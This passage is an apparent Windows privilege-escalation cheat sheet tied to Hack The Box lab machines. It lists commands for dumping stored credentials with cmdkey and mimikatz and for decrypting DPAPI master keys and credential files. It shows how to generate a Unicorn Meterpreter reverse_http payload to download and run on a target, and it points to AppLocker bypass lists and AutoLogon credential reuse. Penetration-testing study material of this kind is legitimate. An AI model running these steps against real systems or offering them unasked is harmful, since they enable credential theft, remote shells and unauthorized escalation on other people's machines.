 Use cmdkey /list to check for stored credentials.
```
$WScript = New-Object -ComObject Wscript.Shell
$shortcut = Get-ChildItem shortcut.lnk
$shortcut
$Wscript.CreateShortcut($shortcut)
```

8. Use Mimikatz

Tips

8.1 If it is getting block by group policy, search for Applocker Bypass list.
https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md

8.2 If this list didn't work then go for meterpreter by using Unicorn.

python unicorn.py windows/meterpreter/reverse_http LHOST LPORT

It will generate 2 files:

a. powershell_attack.txt - save it as msf.ps1

b. unicorn.rc - use this to load msfconsole (msfconsole -r unicorn.rc)

Download and run msf.ps1 on Target machine.

8.3 If unicorn is not working then go for Empire.

Reference Machine - Access HTB machine

9. DPAPI

Download masterkey file: c:\users\localuser\appdata\Roaming\Microsoft\Protect\x-x-x-xxxxx-xxxxxx\

Download Credential file: C:\users\localuser\appdata\Roaming\Microsoft\Credentials\

Then on your local machine run following command on mimikatz to get a masterkey:
```
mimikatz# dpapi::masterkey /in:file /sid:sid-of-current-user /password:password-ofcurrent-user
```

It will give you masterkey then run following command to get a cleartext password.
```
mimikatz# dpapi::cred /in:Credentials-filemimikatz# dpapi::cred /in:Credentials-file
```
 

10. ADRecyclebin Deleted Objects Recover

Use below command:

```
Get-ADObject -filter 'isdeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *
```
Reference link: https://www.poweradmin.com/blog/restoring-deleted-objects-fromactive-directory-using-ad-recycle-bin/

11. AutoLogon Credentials Reuse

After running PowerUp we may end up getting AutoLogon creds which we cn use for escalating privileges
